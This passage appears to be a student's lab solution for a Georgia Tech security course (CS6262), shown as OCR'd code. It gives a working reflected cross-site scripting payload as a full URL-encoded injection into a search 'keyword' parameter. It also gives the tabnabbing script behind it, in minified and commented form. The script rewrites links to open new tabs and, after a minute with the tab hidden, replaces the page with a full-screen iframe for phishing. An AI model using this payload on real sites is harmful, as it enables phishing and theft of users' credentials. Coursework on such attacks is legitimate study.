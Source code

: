 ```javascript
        "position:fixed;top:0;left:0;width:100%;height:100vh;border:0;margin:0;padding:0;display:block;z-index:999999";
      document.body.appendChild(f);
    }
  }, 1000);
}
function v() {
  if (document.hidden) {
    a = 1;
    s();
  } else {
    a = 0;
    t = 0;
    if (i) clearInterval(i);
  }
}
function o() {
  m();
  new MutationObserver(function () {
    m();
  }).observe(document.body, { childList: true, subtree: true });
}
document.addEventListener("DOMContentLoaded", o);
document.addEventListener("visibilitychange", v);
```

### Full URL (URL-Encoded)

```
https://cs6262.gtisc.gatech.edu/search?keyword=%22%3E%3Cscript%3Ewindow.gotYou%3D1%3Bvar%20t%3D0%2Ca%3D0%2Ci%3Dnull%3Bfunction%20m()%7Bvar%20l%3Ddocument.links%3Bif(!l.length)%7Bvar%20x%3Ddocument.createElement(%27a%27)%3Bx.href%3D%27%2F%27%3Bx.textContent%3D%27link%27%3Bx.style%3D%27display%3Ablock%3Bpadding%3A20px%3Bmargin%3A20px%3Bcolor%3A%2307f%3Btext-decoration%3Aunderline%3Bfont-size%3A18px%3Bcursor%3Apointer%27%3Bdocument.body.prepend(x)%3Bl%3Ddocument.links%7Dfor(var%20j%3D0%3Bj%3Cl.length%3Bj%2B%2B)l%5Bj%5D.setAttribute(%27target%27%2C%27_blank%27)%7Dfunction%20s()%7Bi%26%26clearInterval(i)%3Bi%3DsetInterval(function()%7Bif(a%26%26%2B%2Bt%3E%3D60)%7BclearInterval(i)%3Bdocument.body.innerHTML%3D%27%27%3Bdocument.body.style%3D%27margin%3A0%3Bpadding%3A0%3Boverflow%3Ahidden%3Bbackground%3A%23fff%27%3Bvar%20f%3Ddocument.createElement(%27iframe%27)%3Bf.src%3D%27%2Ftabnabbing%2Fgguruvelli3%27%3Bf.style%3D%27position%3Afixed%3Btop%3A0%3Bleft%3A0%3Bwidth%3A100%25%3Bheight%3A100vh%3Bborder%3A0%3Bmargin%3A0%3Bpadding%3A0%3Bdisplay%3Ablock%3Bz-index%3A999999%27%3Bdocument.body.appendChild(f)%7D%7D%2C1000)%7Dfunction%20v()%7Bdocument.hidden%3F(a%3D1%2Cs())%3A(a%3D0%2Ct%3D0%2Ci%26%26clearInterval(i))%7Dfunction%20o()%7Bm()%3Bnew%20MutationObserver(function()%7Bm()%7D).observe(document.body%2C%7BchildList%3Atrue%2Csubtree%3Atrue%7D)%7Ddocument.addEventListener(%27DOMContentLoaded%27%2Co)%3Bdocument.addEventListener(%27visibilitychange%27%2Cv)%3B%3C%2Fscript%3E
```

### Readable Version with Comments

```javascript
// Autograder flag
window.gotYou = 1;

// Global variables
var t = 0; // Time away counter (seconds)
var a = 0; // Away flag (0=visible, 1=hidden)
var i = null; // Interval reference

// Modify all links to open in new tabs
function m() {
  var l = document.links;

  // Create dummy link if none exist
  if (!l.length) {
    var x = document.createElement("a");
```